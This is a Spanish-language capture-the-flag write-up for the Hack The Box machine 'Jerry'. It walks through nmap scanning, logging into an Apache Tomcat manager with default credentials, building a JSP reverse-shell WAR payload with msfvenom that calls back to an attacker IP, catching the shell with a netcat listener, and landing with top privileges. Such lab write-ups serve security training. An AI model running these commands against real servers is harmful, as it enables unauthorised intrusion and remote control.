 ```yaml
---
description: '✍️ Autor: mrh4sh 🔍 Dificultad: Fácil 📅 Fecha de creación: 30/06/2018'
---
```


# Jerry

### 🔍 RECONOCIMIENTO

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 10.10.10.95
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (1256).png" alt=""><figcaption></figcaption></figure>

A continuación, realizamos el comando:

```bash
nmap -sC -sV 10.10.10.95
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (1257).png" alt=""><figcaption></figcaption></figure>

Durante el escaneo se identificaron los siguientes puertos abiertos:

* **Puerto 8080 (HTTP)**: Se ha detectado un servidor web Apache Tomcat con la versión 7.0.88 en ejecución. Esta versión puede contener vulnerabilidades conocidas, por lo que se recomienda verificar exploits públicos relacionados.

A continuación, se procederá a analizar cada uno de estos servicios en busca de posibles vectores de ataque.

### 🔎 EXPLORACIÓN

Se utiliza el comando:

```bash
sudo nmap -sCV -p8080 -v 10.10.10.95
```

para que nos proporcione más información sobre esos puertos específicamente.

<figure><img src="../../.gitbook/assets/image (1258).png" alt=""><figcaption></figcaption></figure>

Revisando el puerto 8080 nos encontramos con un Apache Tomcat por lo que nos intentamos loguear con las credenciales por defecto.

{% embed url="https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-web/tomcat/index.html" %}

Nos logueamos con **admin**:**admin.**

<figure><img src="../../.gitbook/assets/image (1259).png" alt=""><figcaption></figcaption></figure>

Nos salen unas credenciales para loguearnos.

<figure><img src="../../.gitbook/assets/image (1260).png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

Vemos que podemos subir archivos por lo que creamos uno malicioso.

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.14 LPORT=443 -f war -o reverse2.war
```

<figure><img src="../../.gitbook/assets/image (1261).png" alt=""><figcaption></figcaption></figure>

Nos ponemos en escucha.

```
nc -nlvp 443
```

<figure><img src="../../.gitbook/assets/image (1262).png" alt=""><figcaption></figcaption></figure>

### 🔐 **PRIVILEGIOS**

Al estar dentro y ejecutar:

```bash
whoami
```

somos **root.**

<figure><img src="../../.gitbook/assets/image (1263).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (1264).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (1265).png" alt=""><figcaption></figcaption></figure>
